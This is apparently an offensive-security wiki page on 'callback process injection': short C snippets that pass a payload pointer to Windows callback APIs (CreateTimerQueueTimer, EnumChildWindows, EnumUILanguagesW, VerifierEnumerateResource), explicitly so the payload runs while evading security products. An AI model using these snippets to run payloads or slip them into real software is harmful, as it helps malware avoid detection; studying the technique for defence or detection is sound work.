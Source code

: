 # Callback Process Injection



## Introduction

Callbacks in Windows are commonly used to handle specific events when they occur based on a condition. They are used in event handling, window management, and multithreading.

We can abuse callback functions to execute payloads in the **local process** to avoid security solutions and the use of API functions like `CreateThread.`

<mark style="color:red;">**Note**</mark>: `This only works in the`` `**`local process`**` ``and cannot be done in order to achieve remote process injection.`

A list of callbacks can be found in the Github Repo below

{% embed url="https://github.com/aahmad097/AlternativeShellcodeExec" %}

#### CreateTimerQueueTimer

```c
HANDLE hTimer = NULL;

if (!CreateTimerQueueTimer(&hTimer, NULL, (WAITORTIMERCALLBACK)Payload, NULL, NULL, NULL, NULL)){
	printf("[!] CreateTimerQueueTimer Failed With Error : %d \n", GetLastError());
	return -1;
}
```

#### EnumChildWindows

```c
	if (!EnumChildWindows(NULL, (WNDENUMPROC)Payload, NULL)) {
		printf("[!] EnumChildWindows Failed With Error : %d \n", GetLastError());
		return -1;
	}
```

#### EnumUILanguagesW

```c
	if (!EnumUILanguagesW((UILANGUAGE_ENUMPROCW)Payload, MUI_LANGUAGE_NAME, NULL)) {
		printf("[!] EnumUILanguagesW Failed With Error : %d \n", GetLastError());
		return -1;
	}
```

#### VerifierEnumerateResource

```c
	HMODULE hModule = NULL;
	fnVerifierEnumerateResource pVerifierEnumerateResource = NULL;

	hModule = LoadLibraryA("verifier.dll");
	if (hModule == NULL){
		printf("[!] LoadLibraryA Failed With Error : %d \n", GetLastError());
		return -1;
	}

	pVerifierEnumerateResource = GetProcAddress(hModule, "VerifierEnumerateResource");
	if (pVerifierEnumerateResource == NULL) {
		printf("[!] GetProcAddress Failed With Error : %d \n", GetLastError());
		return -1;
	}

	// Must set the AvrfResourceHeapAllocation flag to run the payload
	pVerifierEnumerateResource(GetCurrentProcess(), NULL, AvrfResourceHeapAllocation, (AVRF_RESOURCE_ENUMERATE_CALLBACK)Payload, NULL);
```
